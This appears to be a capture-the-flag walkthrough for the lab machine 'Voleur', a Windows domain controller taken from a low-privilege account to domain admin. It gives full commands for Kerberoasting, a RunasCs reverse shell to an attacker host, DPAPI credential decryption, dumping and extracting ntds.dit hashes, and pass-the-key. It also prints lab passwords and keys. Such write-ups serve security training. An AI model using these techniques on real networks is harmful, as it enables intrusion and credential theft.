



Introduction
Difficulty: Medium
Machine: Voleur
Credentials: ryan.naylor / HollowOct31Nyt
IP Address: 10.10.11.76
Nmap scan:
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-07-08 06:12:30Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
2222/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
| 256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_ 256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open mc-nmf .NET Message Framing
49664/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49670/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49671/tcp open msrpc Microsoft Windows RPC
61513/tcp open msrpc Microsoft Windows RPC
61519/tcp open msrpc Microsoft Windows RPC
61540/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windowsWe started by looking at the share and discovered that NTLM authentication was disabled, so we have to go for kerberos tickets.
netexec smb 10.10.11.76 -u ryan.naylor -p HollowOct31Nyt -k --shares
SMB 10.10.11.76 445 DC [*] x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB 10.10.11.76 445 DC [+] voleur.htb\ryan.naylor:HollowOct31Nyt
SMB 10.10.11.76 445 DC [*] Enumerated shares
SMB 10.10.11.76 445 DC Share Permissions Remark
SMB 10.10.11.76 445 DC ----- ----------- ------
SMB 10.10.11.76 445 DC ADMIN$ Remote Admin
SMB 10.10.11.76 445 DC C$ Default share
SMB 10.10.11.76 445 DC Finance
SMB 10.10.11.76 445 DC HR
SMB 10.10.11.76 445 DC IPC$ READ Remote IPC
SMB 10.10.11.76 445 DC IT READ
SMB 10.10.11.76 445 DC NETLOGON READ Logon server share
SMB 10.10.11.76 445 DC SYSVOL READ Logon server shareInside the IT share there was a file Access_Review.xlsx encrypted. We decrypted it using office2john and found the password football1
office2john Access_Review.xlsx > hash.txt
john hash.txt --wordlist=~/wordlists/rockyou.txtInside this file, we see the following information.
Listed Users:
User Role Group Note
Ryan.Naylor First-Line Support Technician SMB Has Kerberos Pre-Auth disabled temporarily to test legacy systems.
Marie.Bryant First-Line Support Technician SMB
Lacey.Miller Second-Line Support Technician Remote Management Users
Todd.Wolfe Second-Line Support Technician Remote Management Users Leaver. Password reset to NightT1meP1dg3on14 and account deleted
Jeremy.Combs Third-Line Support Technician Remote Management Users Has access to Software folder.
Administrator Administrator Domain Admin Not to be used for daily tasks!
Service Accounts
Account Description Note
svc_backup Windows Backup Speak to Jeremy!
svc_ldap LDAP Services P/W - M1XyC9pW7qT5Vn
svc_iis IIS Administration P/W - N5pXyW1VqM7CZ8
svc_winrm Remote Management Need to ask Lacey as she reset this recently.
So, we have the passwords for svc_ldap and svc_iis (useless). We focused on svc_ldap, with it we obtained the hash of svc_winrm, because we have WriteSPN permissions on it (as shown in BloodHound), which allows us to modify the servicePrincipalName attribute of an object. SPNs are used by Kerberos to identify services (e.g., HTTP/DC.voleur.htb, MSSQL/DC.voleur.htb).
When we request a service ticket for an SPN, the KDC encrypts the ticket with the key derived from the password of the account that owns that SPN. Therefore, anyone holding a TGS (Ticket Granting Service) for an SPN has a blob that can be cracked offline to discover the password of the associated account, this is what we call Kerberoasting. That's why we added an SPN to svc_winrm.

We now perform a kerberoasting attack using the targetedKerberoast tool that automatically adds a SPN to the accounts where it has access and gets a TGS. We crack it and discover the password for the user svc_winrm.
python3 targetedKerberoast.py -d 'voleur.htb' -u 'svc_ldap' -k --no-pass --dc-host 'DC.voleur.htb'So now we have:
ryan.naylor \ HollowOct31Nyt
svc_ldap \ M1XyC9pW7qT5Vn
todd.wolfe \ NightT1meP1dg3on14
svc_winrm \ AFireInsidedeOzarctica980219afiWe log in via evil-winrm as svc_winrm. Inside, we upload a RunasCS.exe and switch to svc_ldap, since it has permissions to restore deleted users, as we saw from the group in BloodHound.
.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell.exe -r 10.10.16.13:6666We restore the user todd.wolfe with the following commands:
Restore-ADObject -Identity 'CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb'
After authenticating as todd.wolfe, we perform enumeration and identify the user's DPAPI keys on the machine.
DPAPI (Data Protection API) is the Windows data protection API used by applications to encrypt secrets (private keys, credentials, cookies, etc.) without the developer having to handle the encryption directly. If we have access to the victim host and the data is protected by DPAPI, we can extract the master keys usually located at %APPDATA%\Microsoft\Protect\SID\ and decrypt the blobs, thus recovering stored secrets.
First, we copy the credentials and the masterkey to any directory; from there, we transfer them to our attack machine and decrypt them using impacket-dpapi.
cp 'C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88' \test\none\masterkey_blob
cp 'C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3' \test\none\credentials_blobThen we use impacket-dpapi
impacket-dpapi masterkey -file masterkey_blob -password 'NightT1meP1dg3on14' -sid S-1-5-21-3927696377-1337352550-2781715495-1110
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies And decrypt
impacket-dpapi credential -file credential_blob -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83Now we log in as user jeremy.combs and see that he has a note and an id_rsa key
We copy the key to another folder, download it, and log in via ssh as svc_backup
chmod 600 id_rsa
ssh -i id_rsa svc_backup@10.10.11.76 -p 2222Inside, we find the file ntds.dit, which is extremely sensitive. It stores the database and credentials of all users. We download it to our attack machine.
Then we find two more folders
We then download the files SYSTEM and ntds.dit
scp -i id_rsa -P 2222 'svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit' .
scp -i id_rsa -P 2222 'svc_backup@dc.voleur.htb:/mnt/c/IT/Third-Line Support/Backups/registry/SYSTEM' .We use secretsdump.py locally to obtain user hashes, including the administrator's hash
To access the machine as administrator, we use the AES128 hash to get a ticket
impacket-getTGT voleur.htb/administrator -aesKey 38af4c8667c90d19b286c7af861b10cc -no-pass -dc-ip 10.10.11.76We then log in using any tool (evil-winrm, wmiexec, psexec, etc.) and we are now admin
